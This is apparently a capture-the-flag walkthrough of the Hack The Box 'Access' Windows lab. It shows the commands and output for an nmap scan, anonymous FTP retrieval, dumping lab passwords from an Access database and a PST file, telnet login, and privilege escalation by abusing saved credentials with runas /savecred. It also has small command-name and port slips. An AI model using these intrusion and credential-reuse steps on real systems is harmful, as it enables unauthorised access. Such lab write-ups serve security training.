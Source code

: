 ## Access 

### Lab Details 

- Difficulty: Easy
- Type: Windows

#### Tasks
Q1:How many TCP ports are listening on Access?
- output from nmap `nmap -sT -T4 -vv -A -p- -oA Access 10.10.10.98`
```
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst: 
|_  SYST: Windows_NT
23/tcp open  telnet  syn-ack Microsoft Windows XP telnetd (no more connections allowed)
| telnet-ntlm-info: 
|   Target_Name: ACCESS
|   NetBIOS_Domain_Name: ACCESS
|   NetBIOS_Computer_Name: ACCESS
|   DNS_Domain_Name: ACCESS
|   DNS_Computer_Name: ACCESS
|_  Product_Version: 6.1.7600
80/tcp open  http    syn-ack Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
```
Q2: What is the filename for the Microsoft Access database available on the host?
 - port 22 (ftp) is open, and based on the output from nmap anonymous login is allowed
 - login to target with anonymous and performed below
```
ftp 10.10.10.98
Connected to 10.10.10.98.
220 Microsoft FTP Service
Name (10.10.10.98:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
425 Cannot open data connection.
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM       <DIR>          Backups
08-24-18  10:00PM       <DIR>          Engineer
226 Transfer complete.
ftp> cd Backups
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM              5652480 backup.mdb
226 Transfer complete.
ftp> binary
200 Type set to I.
ftp> mget backup.mdb
```

Q3: What table in the database has user passwords?
- to interact with mdb file, tool like Mdbtools can be installed. 
```
# list tables in mdb
mdb-tables backup.mdb

# list tables 1 table name per line
mdb-tables backup.mdb -1

# output data in a table in json format
mdb-json backup.md auth_user
- table auth_user looks interesting below is the data
```
{"id":25,"username":"admin","password":"admin","Status":1,"last_login":"08/23/18 21:11:47","RoleID":26}
{"id":27,"username":"engineer","password":"access4u@security","Status":1,"last_login":"08/23/18 21:13:36","RoleID":26}
{"id":28,"username":"backup_admin","password":"admin","Status":1,"last_login":"08/23/18 21:14:02","RoleID":26}
```

Q4: What is the password for Access Control.zip?
- Access Control.zip is located in Engineers directory in target ftp server 
- to obtain the password we will need to use `zip2john` then crack it with `john`
- however we can also try using the password found in the mdb file to access it
- password = `access4u@security`

Q5: What is the password for the security user?
- we get Access Control.pst file which is used to stored Microsoft Outlook data
- install `pst-utls` tool to interact with `.pst` file
- we can use `readpst` to get the output 
```
# create a directory for the output to be stored
$: mkdir mail
# -o: output directory 
# -S: input pst file
$: readpst -o mail -S 'Access Control.pst'
$: tree mail
mail
└── Access Control
    └── 2
# password is in the file named '2'
```

Q6: To which open TCP port on Access can we connect to get a shell after logging in as security?
 - theres a open telnet port (23) we can try to connect to it 
 - `telnet target_ip 23`
 - once connected will prompt for username and password 
 - login with password found in the pst file

Q7: Submit the flag located on the security user's desktop.
 -  after gaining shell access run below to get the flag
 -  `type \Desktop\user.txt

Q8: What is the name of the executable called by the link file on the Public desktop?
 - there is a `.lnk` file located at `C:\Users\Public\Desktop`
 - to see the file that its executing by using `type` similar to `cat`
 - `type ZKAccess3.5 Security System.lnk`
```
PS C:\Users\Public\desktop> type "ZKAccess3.5 Security System.lnk"
L?F?@ ??7???7???#?P/P?O? ?:i?+00?/C:\R1M?:Windows???:?▒M?:*wWindowsV1MV?System32???:?▒MV?*?System32▒X2P?:?
                                                                                                           runas.exe???:1??:1?*Yrunas.exe▒L-K??E?C:\Windows\System32\runas.exe#..\..\..\Windows\System32\runas.exeC:\ZKTeco\ZKAccess3.5G/user:ACCESS\Administrator /savecred "C:\ZKTeco\ZKAccess3.5\Access.exe"'C:\ZKTeco\ZKAccess3.5\img\AccessNET.ico?%SystemDrive%\ZKTeco\ZKAccess3.5\img\AccessNET.ico%SystemDrive%\ZKTeco\ZKAccess3.5\img\AccessNET.ico?%?
                                                                                                                                       ?wN?▒?]N?D.??Q???`?Xaccess?_???8{E?3
               O?j)?H???
                        )??[?_???8{E?3
                                      O?j)?H???
                                               )??[?    ??1SPS??XF?L8C???&?m?e*S-1-5-21-953262931-566350628-63446256-500
```
 - the program thats executed is runas

Q9: What Windows command, when given the /list option, will print information about the stored credentials available to the current user?
 - the Windows command will print stored creds given /list flag is `cmdkeys` - read more on this check out `Windows Privilege Escalation -> Further Credential Theft` module from HTB Academy, goes in depth on this topic
  
Q10: What option can be given to the runas Windows command to have it use the saved credentials and run as that user? Include the leading /.
- flag `/savecred` will use the saved cred instead of user input

Q11: Submit the flag located on the administrator's desktop.
- to get the root flag we will need to contruct the runas command to as below
- running as Administrator to output the root.txt's content to another file 
```
PS C:\Users\Public\desktop> cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
    Type: Domain Password
    User: ACCESS\Administrator

# runas as Administrator to get output from root.txt on C:\Users\Administrator\Desktop and save it to root.txt
C:\Windows\System32\runas.exe /savecred /user:ACCESS\Administrator "cmd.exe /c type C:\Users\Administrator\Desktop\root.txt > root.txt"

# get the flag
cat C:\Windows\System32\root.txt
```


#### Lesson Learned
 - Ways to interact with .mdb files 
 - Ways to interact with .pst files 
